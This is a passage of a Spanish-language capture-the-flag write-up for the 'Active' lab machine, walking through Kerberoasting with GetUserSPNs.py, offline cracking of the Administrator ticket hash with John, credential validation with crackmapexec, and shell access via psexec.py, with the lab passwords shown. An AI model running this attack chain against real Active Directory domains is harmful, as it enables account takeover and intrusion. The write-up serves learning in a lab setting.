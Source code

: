 En este caso como ya comprometimos el usuario **SVC_TGS** y evidetemente tenemos unas credenciales validas y nos dan una entrada al dominio, entonces podemos empezar por ahi, ahora usaremos **GetUserSPNs.py** para solicitar los **TGS** de los usuarios con un **SPN**:

```ruby
GetUserSPNs.py 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -request
```

- El **-request** se usa para solicitar los TGS de los SPN

![](/assets/img/active/5.png)

Y obtivimos un **TGS** para el **SPN** **active/CIFS:445** el cual es del usuario **Administrator**

Ahora lo crackeamos de forma offline con John:

```
john --wordlist=/usr/share/wordlist/rockyou.txt hash
```

Y obtenemos su contraseña: **Ticketmaster1968**

Ahora la validamos con **crackmapexec** y si sale un **Pwned!** es por que tenemos control total de esa cuenta y privilegios maximos

```ruby
crackmapexec smb active.htb -u Administrator -p Ticketmaster1968
```

![](/assets/img/active/6.png)

Y por ultimo podemos usar **psexec** para acceder a la maquina con las credenciales de **Administrator**

```ruby
psexec.py active.htb/Administrator:Ticketmaster1968@active.htb 
```
